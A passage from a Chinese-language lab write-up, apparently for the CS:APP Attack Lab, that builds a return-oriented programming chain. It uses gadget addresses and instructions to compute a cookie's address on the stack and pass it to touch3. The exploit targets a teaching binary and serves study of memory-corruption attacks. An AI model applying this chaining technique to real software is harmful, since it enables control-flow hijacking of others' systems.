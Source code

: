 根据提示，有一个`gadget`一定要用上

```assembly
 00000000004019d6 <add_xy>:
   4019d6:       48 8d 04 37             lea    (%rdi,%rsi,1),%rax
   4019da:       c3                      retq
```

地址为：`0x4019d6`

通过合适的赋值，这段代码就能实现`%rsp`加上段内偏移地址来确定`cookie`的位置

剩下部分流程与`Phase 3`一致，大体思路如下：

- 先取得栈顶指针的位置
- 取出存在栈中得偏移量的值
- 通过`lea    (%rdi,%rsi,1),%rax`得到 cookie 的地址
- 将 cookie 的地址传给`%rdi`
- 调用`touch 3`

由于`gadget`的限制，中间的细节需要很多尝试，尝试过程不再一一列举了，我们直接给出代码

```assembly
#地址：0x401aad
movq %rsp, %rax
ret

#地址：0x4019a2
movq %rax, %rdi
ret

#地址：0x4019cc
popq %rax
ret

#地址：0x4019dd
movl %eax, %edx
ret

#地址：0x401a70
movl %edx, %ecx
ret

#地址：0x401a13
movl %ecx, %esi
ret

#地址：0x4019d6
lea    (%rdi,%rsi,1),%rax
ret

#地址：0x4019a2
movq %rax, %rdi
ret
```
